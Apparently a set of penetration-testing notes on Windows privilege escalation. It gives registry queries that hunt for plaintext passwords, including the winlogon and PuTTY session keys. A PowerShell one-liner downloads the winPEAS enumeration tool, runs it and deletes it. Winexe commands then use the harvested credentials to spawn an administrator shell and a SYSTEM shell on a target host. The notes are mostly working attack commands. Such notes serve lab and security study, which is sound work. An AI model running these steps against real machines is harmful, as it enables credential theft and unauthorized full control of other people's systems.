




Registry
• Plenty of programs store configuration options in the Windows Registry.
• Windows itself sometimes will store passwords in plaintext in the Registry.
• It is always worth searching the Registry for passwords.
Searching the Registry for Passwords
The following commands will search the registry for keys and values that contain “password”
C:\> reg query HKLM /f password /t REG_SZ /s #local machine
C:\> reg query HKCU /f password /t REG_SZ /s #current user
C:\> reg query HKCU /f password /t REG_SZ /s #current user
ATTENTION: This usually generates a lot of results, so often it is more fruitful to look in known locations.
Privilege Escalation
1. WinPEAS generally check for service misconfigurations: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet filesinfo userinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

2. Verify manually:
◇ winlogon:
C:\> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
◇ putty SSH:
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

3. ipv4 of target machine

4. On Kali, we can use the winexe command to spawn a shell using these credentials:
root@kali:/# winexe -U 'admin%password123' //192.168.147.210 cmd.exe
C:\> net localgroup administrators #to check if the user is a local administrator
C:\> net localgroup administrators #to check if the user is a local administrator

since this user is an an admin, we can also have a SYSTEM shell with these credentials
root@kali:/# winexe -U 'admin%password123' --system //192.168.147.210 cmd.exe
